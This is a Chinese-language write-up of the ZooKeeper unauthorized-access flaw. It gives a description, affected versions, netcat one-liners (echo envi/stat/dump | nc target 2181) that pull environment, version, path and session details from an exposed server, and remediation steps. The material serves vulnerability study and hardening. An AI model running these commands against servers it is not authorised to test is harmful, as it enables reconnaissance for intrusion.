


# Zookeeper未授权漏洞

### 漏洞描述

ZooKeeper是一个分布式的，开放源码的分布式应用程序协调服务，是Google的Chubby一个开源的实现，是Hadoop和Hbase的重要组件。它是一个为分布式应用提供一致性服务的软件，提供的功能包括：配置维护、域名服务、分布式同步、组服务等。

ZooKeeper默认开启在2181端口，在未进行任何访问控制情况下，攻击者可通过执行envi命令获得系统大量的敏感信息，包括系统名称、Java环境

Zookeeper 安装部署之后默认情况下不需要任何身份验证，造成攻击者可以远程利用 Zookeeper，通过服务器收集敏感信息或者在 Zookeeper 集群内进行破坏（比如：kill命令）。攻击者能够执行所有只允许由管理员运行的命令。

### 影响版本

- Zookeeper全版本

### 漏洞扫描

使用Goby对目标进行扫描，发现未授权漏洞




### 漏洞复现

直接输出目标服务器环境信息：os名称   版本   服务器名称   版本    绝对路径

```bash
echo  envi  | nc 192.168.xxx.xxx 2181
```




```bash
echo  stat  | nc 192.168.xxx.xxx 2181
```


连接数 版本 模式


```bash
stat：列出关于性能和连接的客户端的统计信息。
echo stat |nc 192.168.xxx.xxx  2181

ruok：测试服务器是否运行在非错误状态。
echo ruok |nc 192.168.xxx.xxx  2181

reqs：列出未完成的请求。
echo reqs |nc 192.168.xxx.xxx  2181

envi：打印有关服务环境的详细信息。
echo envi |nc 192.168.xxx.xxx   2181

dump：列出未完成的会话和临时节点。
echo dump |nc 192.168.xxx.xxx  2181

```


### 漏洞修复

1、配置服务ACL限制IP访问

2、配置防火墙策略，只允许指定IP访问2181端口

3、增加 ZooKeeper 的认证配置。

### 参考

- https://www.cnblogs.com/wxwbblog/articles/16382255.html
- https://www.u72.net/dev/show-152309.html
- https://blog.csdn.net/qq_44108455/article/details/107708133
- https://blog.csdn.net/weixin_55716222/article/details/124732332
- https://blog.csdn.net/Aaron_Miller/article/details/106049421
-  https://zhuanlan.zhihu.com/p/639367362
- https://blog.csdn.net/qq_43719634/article/details/105094934